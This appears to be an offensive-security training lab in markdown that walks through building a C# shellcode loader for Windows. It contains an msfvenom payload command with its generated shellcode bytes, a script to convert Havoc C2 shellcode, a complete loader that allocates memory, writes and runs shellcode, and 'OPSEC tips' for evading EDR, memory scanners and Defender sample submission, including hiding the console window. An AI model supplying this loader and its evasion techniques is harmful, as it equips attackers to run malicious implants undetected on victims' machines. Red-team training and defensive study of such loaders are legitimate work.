


# Lab - Basic Loader
<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**


> When building a shellcode loader, you can use any coding language, c, c++, c#, powershell, rust, golang and so on. In general, detection rates for languages like golang, rust and nim are lower, they are much harder to analyze and reverse than standard c or c# code. In this training we''l be using C as our language, as it is a low level programming language (no CLR that does JIT compiling like with C# or powershell), remember most windows API functions are written in C/C++ as well.

## Advantages of Using C on Windows

### Direct Access to Windows API:
- Native integration with core Windows features like process management, file I/O, and security.
- Low-level control over kernel objects, memory, and hardware for system-level tasks.

### High Performance:
- Extremely fast and efficient due to minimal runtime overhead.
- No garbage collection, allowing full control over memory and reducing latency.

### Portability and Compatibility:
- Backward compatibility with older Windows versions.
- Portable language that can be adapted for other operating systems with adjustments.

### Small Footprint:
- Lightweight programs with smaller memory and disk usage, ideal for resource-limited scenarios.

### Extensive Tooling and Libraries:
- Access to the Windows SDK, C headers, and libraries optimized for Windows development.
- Support for third-party C libraries like OpenSSL and SQLite.

### Control Over System Resources:
- Fine-grained memory management (e.g., `malloc`, `free`) for optimization.
- Direct use of Windows threading and synchronization APIs for efficient multitasking.


To build our own shellcode loader we need 4 functions:

> VirtualAlloc (Kernel32.dll)
> CreateRemoteThread (Kernel32.dll)
> MarshallCopy
> WaitForSingleObject (Kernel32.dll)

Generate havoc shellcode/helloworld dialog

>***EXPLAIN P/INVOKE - D/INVOKE:***
PINVOKE 
> 
> https://pinvoke.net/
> 
> https://github.com/TheWover/DInvoke


On Kali
```
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE"  -f csharp -b '\x00\x0a\x0d\x20' 
```

```
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 367 (iteration=0)
x64/xor chosen with final size 367
Payload size: 367 bytes
Final size of csharp file: 1896 bytes
byte[] buf = new byte[367] {0x48,0x31,0xc9,0x48,0x81,0xe9,
0xd7,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,0xff,0xff,0x48,
0xbb,0x24,0x95,0x1f,0xa0,0x28,0x38,0x25,0xc8,0x48,0x31,0x58,
0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0xd8,0xdd,0x9e,
0x44,0xd8,0xc7,0xda,0x37,0xcc,0x59,0x1f,0xa0,0x28,0x79,0x74,
0x89,0x74,0xc7,0x4e,0xf6,0x60,0x09,0xf7,0xad,0x6c,0x1e,0x4d,
0xc0,0x60,0xb3,0x77,0xd0,0x6c,0x1e,0x4d,0x80,0x65,0x09,0xec,
0x80,0x2b,0x22,0x55,0xea,0x60,0xb3,0x57,0x98,0x6c,0xa4,0xdf,
0x0c,0x14,0x59,0x59,0xca,0x08,0xb5,0x5e,0x61,0xe1,0x35,0x64,
0xc9,0xe5,0x77,0xf2,0xf2,0x69,0x69,0x6d,0x43,0x76,0xb5,0x94,
0xe2,0x14,0x70,0x24,0x18,0x42,0x14,0x67,0xb8,0x23,0x3a,0x2a,
0x4d,0x56,0x95,0x1f,0xa0,0xa3,0xb8,0xad,0xc8,0x24,0x95,0x57,
0x25,0xe8,0x4c,0x42,0x80,0x25,0x45,0x5b,0x2b,0x68,0x18,0xae,
0x80,0x3c,0xdc,0x1e,0x70,0x78,0xdb,0x73,0x80,0xdb,0x5c,0x52,
0x91,0xe1,0x79,0xae,0xfc,0xac,0xdd,0x1e,0x76,0x60,0x09,0xe5,
0x89,0xe5,0x5c,0x12,0x0c,0x69,0x39,0xe4,0xf0,0xc4,0xe0,0xee,
0xec,0x2b,0x74,0x01,0xc0,0x61,0xac,0xce,0xd5,0xf0,0x60,0x61,
0x43,0x64,0xb1,0x56,0xa1,0xf8,0x5e,0x64,0x43,0x28,0xdd,0x5b,
0x2b,0x68,0x24,0x6c,0xc9,0xf4,0xd4,0x94,0xa4,0xa0,0x79,0x7d,
0x89,0x7c,0xcb,0x46,0xe8,0x29,0xe8,0x7f,0x89,0x7c,0xd4,0x46,
0xe1,0x72,0x70,0xa6,0x24,0x04,0xd4,0x4d,0x5f,0xc8,0x60,0x64,
0x91,0x7e,0xdd,0x94,0xb2,0xc1,0x73,0xda,0x37,0xdb,0xc8,0xf7,
0xab,0x28,0x38,0x25,0xbd,0x57,0xf0,0x6d,0x93,0x1a,0x16,0x41,
0xa4,0x48,0x95,0x46,0xe1,0x92,0x74,0x52,0xee,0x23,0x6a,0xca,
0xe9,0xef,0xf9,0x25,0xc8,0x24,0x95,0xf7,0xb8,0x28,0x38,0x25,
0x9b,0x51,0xf6,0x7c,0xc5,0x5b,0x4b,0x43,0xbd,0x48,0xb5,0x5a,
0xd8,0x4d,0x5b,0x50,0xbc,0x4d,0xfa,0x71,0x80,0x12,0x11,0x25,
0x92,0xcc,0x99,0x1f,0xa0,0x28,0x7b,0x57,0xa1,0x49,0xe6,0x70,
0xce,0x6b,0x77,0x77,0x8d,0x24,0xd4,0x47,0xe8,0x19,0xf1,0x64,
0x72,0x61,0x16,0x49,0xa7,0xd7,0xed,0x6d,0xf9,0xed,0xd4,0xa5,
0x50,0x9d,0x9a,0x73,0x37,0xf1,0x95,0x1f,0xa0,0x28,0x38,0x25,
0xc8};
```

```
xxd --canonical meterpreter.exe | more  
```

Note on compiling:



Convert the shellcode to a CSharp array:

```powershell
$fileName = "C:\temp\demon.x64.bin"
$fileContent = [IO.File]::ReadAllBytes($fileName)
#$fileContent
$csharpformat = '0x' + (($fileContent | ForEach-Object ToString x2 | ForEach-Object { $_ + ',' }) -join '0x')
$csharpformat = $csharpformat.SubString(0, $csharpformat.Length-1)
Write-Output "[+] Shellcode length: $($csharpformat.Length) bytes"
$csharpformat | add-content ($fileName + ".cs")
Write-Output "[+] CSharp Shellcode written to: $filename"
```

Load this shellcode into you basic loader template:

```CSHARP
using System;
using System.Runtime.InteropServices;

namespace ShellcodePayload
{
    class Payload
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32.dll")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr GetCurrentProcess();

        static void Main()
        {
            // (1) retrieve shellcode from function
            byte[] shellCode = GetShellcode();

            // Print the shellcode to the screen
            Console.WriteLine("Shellcode: " + BitConverter.ToString(shellCode));

            // (2) allocate memory for shellcode
            UInt32 MEM_COMMIT = 0x1000;
            UInt32 PAGE_EXECUTE_READWRITE = 0x40;
            IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

            // (3) inject shellcode into allocated memory using WriteProcessMemory
            IntPtr bytesWritten;
            bool result = WriteProcessMemory(GetCurrentProcess(), funcAddr, shellCode, (uint)shellCode.Length, out bytesWritten);

            if (!result)
            {
                Console.WriteLine("Failed to write shellcode to memory.");
                return;
            }

            Console.WriteLine($"Successfully wrote {bytesWritten} bytes to memory.");

            // (4) execute injected shellcode
            UInt32 threadId = 0;
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, funcAddr, IntPtr.Zero, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }

        // Function to return the shellcode
        private static byte[] GetShellcode()
        {
            0x56,0x48,0x89,0xe6,...
        };
    }
}
```

> OPSEC TIP : Clear out the shellcode buffer after injecting it into memory (this becomes more revelevant when we encrypt/obfuscate our shellcode) to evade memory scanning.

```csharp
Array.Clear(buf, 0, buf.Length);
```

> OPSEC TIP : Remove comments from your code, and avoid using variables like "buf" and "shellcode".

> OPSEC TIP: ***DON'T use RWX permissions***, split them up in RW and RX
> the RW-to-RX approach enhances security by ensuring the memory is only executable when necessary. Extend the code to integrate with DNS-based key retrieval or other loader logic, ensuring all operations are performed securely. For example, after retrieving the XOR key, allocate memory as RW, write the decrypted shellcode, change to RX, and execute, minimizing exposure.
>
> WHY? assignung RWX to a dynamically allocated memory basically scream "HEY I'M DOING SOMETHING REALLY WEIRD!" - EDR's will typically flag this and once a `thread` is created to the address of this memory space (= start the code in the memory region), they'll initiate a memory scan on the contents of that memory region - or simply just kill the process immediately. Also forensic analysts will flag this immediately and quite a lot om memory analysis tools (i.e. volatility) likewise will flag on this.

Below you can see when we run our basic loader that ge can run a simple powershell tools that scans all running processes for RWX permissions that have a createthread associated with them:

```powershell
.\get-injectedThread.ps1
```



```csharp
UInt32 PAGE_READWRITE = 0x04;
IntPtr funcAddr = VirtualAlloc(IntPtr.Zero, (UInt32)shellCode.Length, MEM_COMMIT, PAGE_READWRITE);
```

and

```csharp
UInt32 PAGE_EXECUTE_READ = 0x20;
UInt32 oldProtect;
bool protectResult = VirtualProtect(funcAddr, (UInt32)shellCode.Length, PAGE_EXECUTE_READ, out oldProtect);
if (!protectResult)
{
    Console.WriteLine("Failed to change memory protection.");
    return;
}
```

> HIDE the console window
>
```CSharp
[DllImport("user32.dll")]
private static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);

[DllImport("kernel32.dll")]
private static extern IntPtr GetConsoleWindow();
const int SW_HIDE = 0;

var handle = GetConsoleWindow();
ShowWindow(handle, SW_HIDE);
```

# MODULARITY
> In order to keep our shellcode loader neatly organized we'll make it modular - so instead of just adding code to the main program - let's put our functions in seperate classes (.cs files) that we can simply call from main. This will allow us to keep adding functionality while keeping an oversight of where we are and what we're. doing


